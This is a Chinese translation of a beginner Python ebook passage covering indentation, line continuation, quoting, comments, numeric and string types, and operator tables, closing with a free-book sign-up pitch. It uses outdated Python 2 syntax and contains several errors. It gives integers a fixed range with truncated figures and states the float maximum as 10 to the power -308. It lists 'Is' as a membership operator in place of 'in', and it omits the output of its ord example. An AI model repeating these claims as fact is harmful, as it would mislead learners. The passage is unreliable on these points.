嗯，这个说法既对也不对。你可以将内部块写在一行上而不缩进它。你可以使用以下任一版本的“if 语句”，因为它们都是有效的，并且产生相同的输出：

```
if 1 + 1 == 2 :
    print "foo"
    print "bar"
    w = 99
```

```
if 1 + 1 == 2 :
    print "foo" ; print "bar" ; w = 99
```

```
if 1 + 1 == 2 : print "foo" ; print "bar" ; w = 99
```

作为程序员，你可能希望将代码块写在不同的行中，例如第一个示例所示。然而，有时存在类似的 *if 语句*，你可以方便地将它们分别写在每一行上。

如果你决定将代码块写在不同的行中，那么你必须遵循缩进规则。必须将所包含的块缩进得比“*if 语句*”更多。

总之，你将被迫在 Python 中遵守这条规则，除非你选择让程序结构更复杂。该编程语言不允许通过使用虚假缩进来混淆程序结构。

请记住，在 Python 编程语言中，块通过缩进来表示；因此，每个程序中的缩进都是相同的。代码格式的一致性使程序更易于阅读和理解。

#### 在 Python 中不可能混合使用空格和制表符。

是的，这是真的，即使对于用 C 语言编写的程序也是如此。你不能安全地混合使用空格和制表符。尽管这对编译器来说并不会真的有巨大差异，但你可能会在处理代码时遇到困难。例如，如果你将 C 源代码移动到一个具有不同制表位设置的编辑器中，就更容易引入错误。

再次提醒，请记住，混合使用空格和制表符进行缩进并不理想。不过，你可以只使用空格或只使用制表符。此外，你可能希望完全避免使用制表符。毕竟，制表符的语义并没有被很好地定义，并且在不同类型的编辑器和系统上可能显示得不一样。

在复制和粘贴操作期间，以及每当源代码被插入网页或任何其他类型的标记代码中时，制表符也经常被错误地转换或破坏。

#### 可以跳过缩进并使用关键字代替。

是的，你可以跳过使用缩进，只使用关键字。实际上，有一些程序员更喜欢使用 *endif* 而不是缩进来表示代码块的结束。

嗯，它在 Python 中并不是一个被认可的关键字。该编程语言的早期版本附带一个工具，可以将使用关键字 *end* 的代码转换为正确的缩进，并移除该关键字。

这可以用作编译器的预处理器。然而，在该编程语言的近期版本中，该工具已被移除，很可能是因为它不常被使用。

#### 编译器如何解析缩进？

解析实际上很简单，并且定义明确。通常，缩进级别的变化会作为标记插入到流中。缩进级别使用词法分析器或分词器中的栈来存储。起初，栈中只有一个值 0，它位于最左侧部分。


每次嵌套块开始时，一个新的缩进级别会被压入栈中。*indent token*随后会被插入到流中，最终传递给解析器。不可能连续出现多个缩进标记。

如果遇到缩进级别更小的行，则从栈中开始弹出值，直到其中一个位于顶部为止。这相当于新的缩进级别。如果找不到任何值，则会生成语法错误。每次弹出一个值时，都会有一个*dedent token*。可能连续出现多个缩进结束标记。在每段源代码的末尾，都会为栈中剩余的缩进级别生成缩进结束标记。这会一直持续进行，直到剩余数量为0。

### 多行语句

当你结束一条语句时，可以使用新行，或者使用续行符号（ \ ），如果想表示该行需要继续。为了帮助你进一步理解这个概念，请考虑以下示例：

```
total = first_item + \
    second_item + \
    third_item
```

当你编写包含在大括号内的语句时，例如 { }、( ) 和 [ ]，就无需使用续行符号。例如，如果你想显示一年中的月份，可以简单地写：

```
year = [ 'January' , 'February' , 'March' , 'April' , 'May' , 'June' , 'July' , 'August' ,
'September' , 'October' , 'November' , 'December' ]
```

你可以在单行上编写多条语句，或创建多个组作为套件。谈到编写多条语句时，请记住分号（ ; ）的包含至关重要。分号允许你编写尽可能多的语句，只要它们不开始新的代码块。考虑以下示例：

```
import sys ; y = 'bar' ; sys.stdout.write ( y + '\n' )
```

那么套件到底是什么呢？它们是由代码块组成的语句组。复合或复杂语句，例如 *if*、*while*、*def* 和 *class* 需要一个套件和一个头部行。

那么头部行是什么呢？它们以关键字开始语句，以冒号（:）结束它们。此外，它们后面跟着一个或多个构成套件的行。考虑以下示例：

```
if expression :
    suite
elif expression :
    suite
else :
    suite
```

### 引用

作为程序员，在表示字符串字面量时，你可以使用单引号（ ' ' ）、双引号（ " " ）和三引号（ ''' 或 """ ）。同样，请确保你在字符串的开始和结束使用相同类型的引号。通常，三引号用于跨多行表示字符串。看下面的示例：

```
paragraph = """ You are reading an example of a paragraph that consists multiple lines
and sentences. You are an excellent programmer. """
```

### 注释

关于注释，你应该使用井号（ # ）来开始它们。然而，这个井号不应位于字符串字面量内。此外，行尾在其之后出现的字符应包含在注释中。在 Python 中，注释不被解释器识别。为了帮助你进一步理解这个概念，请看下面的示例：

```
#### This is the first comment
print " Monty Python’s Flying Circus is a British sketch comedy series. " ;
#### This is the second comment
```

如果你运行上面给出的示例，你将得到以下输出：

```
Monty Python’s Flying Circus is a British sketch comedy series.
```

你也可以在表达式或语句之后写另一个注释，例如如下：

```
name = "Wendy" # This is a sample comment
```

如果你想对多行进行注释，也可以这样做。例如：

```
#### This is a sample comment.
#### This one is also a comment.
#### This is another comment.
#### This comment is written by Wendy.
```

### *空白行*

这些行在 Python 编程语言中不被识别。话虽如此，它们基本上就像注释一样。它们包含空白字符甚至注释。你必须使用空行来在交互式解释器会话中终止多行语句。

## 第 3 章：数据类型

在 Python 中，输入数据根据不同的类别进行分类。分类的主要目的是帮助像你这样的程序员更高效地处理信息。这些类别充当数据存储位置，你在运行 Python 平台时可以随时访问它们。

### 变量

变量包含专门分配给它们的值。如果你正在为应用程序处理复杂的代码，你可能希望将信息存储在这些变量中。不要担心，因为你可以在需要时随时访问它们。你甚至可以使用它们来确保从终端用户收集的信息保持安全。

### 数值类型

Python 编程语言中的数字与你在代数中解决问题时使用的数字不同。在数学中，在数字末尾添加 .0 实际上毫无意义。它不会对其值产生任何影响。例如，3 和 3.0 是相同的。

然而在 Python 中，3 和 3.0 是不同的数字。在程序处理它之前，它必须经过某些数据处理方法。作为程序员，你必须了解不同的数值类型。

#### 整数

所有整数都是整数。包含小数点的数字不是整数；因此，3 是整数而 3.0 不是。Python 中的整数以数据类型 *int* 为特征。

请注意整数有容量限制。如果你尝试处理超出允许限制的值，将会生成错误。整数通常处理 -9,223,372,036,854 到 9,223,372,036,854 之间的数字。

*int* 变量带有一些有趣的特性。例如，二进制仅使用 0 和 1，八进制使用 0 到 7 的数字，十进制具有与十进制系统相似的特性，而十六进制使用字母 A 到 F 和数字 0 到 9 作为数字。

#### 浮点值

任何包含小数点的数字在 Python 中都被视为浮点值。小数点后的数字是否为 0 并不重要。例如，3.0、1.5 和 11.4 都是浮点值。它们存储在 float 数据类型中。浮点值相对于整数的一个巨大优势是它们具有更大的存储空间；因此，它们能够存储非常小或非常大的值。

同样，你不应该认为它们具有无限的存储空间。仍然存在限制。尽管如此，它们可以小到 ±2.2250738585072014 × 10⁻³⁰⁸，大到 1.7976931348623157 × 10⁻³⁰⁸。使用浮点值分配值有几种方法。首先，你可以直接为它们赋值。其次，你可以使用科学计数法。请记住，负指数产生分数等价物。

#### 复数

这些数字由实数和虚数组合而成。通常，它们用于动态系统、量子力学、计算机图形学、电气工程和流体动力学。复数可以在 Python 和其他几种编程语言中处理。

### ***布尔值***

这些是两个常量对象 *True* 和 *False*。它们表示真值。当在数值上下文中使用时，它们充当 0 和 1。你可以使用函数 *bool* 为布尔值分配一个值，如果该值可以被解释为真值。

### ***字符串***

它们是由双引号连接的字符组。考虑以下示例：

```
`TheString = " Python got its name from a popular comedy show. "`
```

如上所示的示例代码中，短语 *Python got its name from a popular comedy show.* 被分配给变量 *TheString*。

计算机无法理解字母，只能理解数字。因此，当你编写程序时，Python 基于代表其字母的数字来读取和解释它。例如，在美国信息交换标准代码（ASCII）中，数字 65 代表字母 A。所以如果你输入

```
`ord ( " A " )`
```

你将得到输出

因为计算机无法理解字母，所以必须将字符串转换为数字。你可以使用 *int* 或 *float* 来完成。若需要将数字转换为字符串，可以使用 *str*。

## 第 4 章：运算符

操作数的值由运算符处理。Python 编程语言中使用了七种运算符。以下表格展示了这些运算符，并简要说明其功能。

### 算术运算符

| 运算符 | 描述 |
|---|---|
| 加法（+） | 它将值相加。 |
| 减法（-） | 它从第一个操作数中减去第二个操作数。 |
| 乘法（*） | 它将值相乘。 |
| 除法（/） | 它将第一个操作数除以第二个操作数。 |
| 取模（%） | 它将第一个操作数除以第二个操作数并返回余数。 |
| 指数（ ** ） | 它对操作数执行指数计算。 |
| 整除（//） | 它对操作数进行除法，但会去掉结果中的小数部分。 |

### 比较运算符或关系运算符

| 运算符 | 描述 |
|---|---|
| == | 如果两个操作数的值相等，则条件为真。 |
| != | 如果两个操作数的值不相等，则条件为真。 |
| <> | 如果两个操作数的值不相等，则条件为真。 |
| > | 如果左操作数的值大于右操作数的值，则条件为真。 |
| < | 如果左操作数的值小于右操作数的值，则条件为真。 |
| >= | 如果左操作数的值大于或等于右操作数的值，则条件为真。 |
| <= | 如果左操作数的值小于或等于右操作数的值，则条件为真。 |

### 赋值运算符

| 运算符 | 描述 |
|---|---|
| = | 它将值从右操作数赋给左操作数。 |
| += 加法 AND | 它将右操作数加到左操作数，然后将结果赋给左操作数。 |
| -= 减法 AND | 它从左操作数中减去右操作数，然后将结果赋给左操作数。 |
| *= 乘法 AND | 它将左操作数和右操作数相乘，然后将结果赋给左操作数。 |
| /= 除法 AND | 它将左操作数除以右操作数，然后将结果赋给左操作数。 |
| %= 取模 AND | 它使用两个操作数求模，然后将结果赋给左操作数。 |
| **= 指数 AND | 它对操作数执行指数计算，然后将值赋给左操作数。 |
| //= 整除 | 它对操作数执行整除，并将值赋给左操作数。 |

### 位运算符

| 运算符 | 描述 |
|---|---|
| & 按位与 | 如果某一位在两个操作数中都存在，则复制该位。 |
| \| 按位或 | 如果某一位在任一操作数中存在，则复制该位。 |
| ^ 按位异或 | 如果某一位仅在一个操作数中存在，而不是在两个操作数中同时存在，则复制该位。 |
| ~ 二进制反码 | 它翻转各个位。 |
| << 二进制左移 | 它根据右操作数指定的位数，将左操作数的值向左移动。 |
| >> 二进制右移 | 它根据右操作数指定的位数，将左操作数的值向右移动。 |

### 逻辑运算符

| 运算符 | 描述 |
|---|---|
| And 逻辑与 | 如果两个操作数都为真，则条件为真。 |
| Or 逻辑或 | 如果某个操作数非零，则条件为真。 |
| Not 逻辑非 | 它反转操作数的逻辑状态。 |

### 成员运算符

| 运算符 | 描述 |
| --- | --- |
| Is | 如果运算符两侧的变量指向同一对象，则计算结果为真。否则，计算结果为假。 |
| Not in | 如果它在特定序列中找不到某个变量，则计算结果为真。否则，计算结果为假。 |

### 身份运算符

| 运算符 | 描述 |
| :--- | :--- |
| Is | 如果运算符两侧的变量指向同一对象，则计算结果为真。否则，计算结果为假。 |
| Is not | 如果运算符两侧的变量指向同一对象，则计算结果为假。否则，计算结果为真。 |

## 结论

再次感谢你下载本书！

希望本书能帮助你了解 Python 编程语言。

下一步是应用你从本书中学到的知识。


我想**感谢你**抽出时间阅读我的书。作为感谢，我想免费赠送你一本我的 #1 畅销书！



未来你还将收到许多精彩且免费的内容！！

只需点击下面的链接，输入你的姓名和电子邮件地址，即可立即获取你的免费内容！


[单击此处] 返回本书！

